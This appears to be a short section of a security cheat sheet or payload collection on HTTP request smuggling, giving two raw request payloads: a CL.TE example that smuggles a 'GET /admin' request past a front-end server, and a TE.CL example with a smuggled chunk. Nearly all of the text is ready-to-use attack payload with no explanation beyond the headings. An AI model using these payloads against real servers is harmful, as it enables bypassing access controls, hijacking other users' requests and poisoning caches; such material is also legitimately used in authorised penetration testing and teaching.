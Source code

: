 ### CL.TE vulnerabilities
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin HTTP/1.1
Host: domain.com
```

### TE.CL vulnerabilities
```
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0\r\n\r\n
```

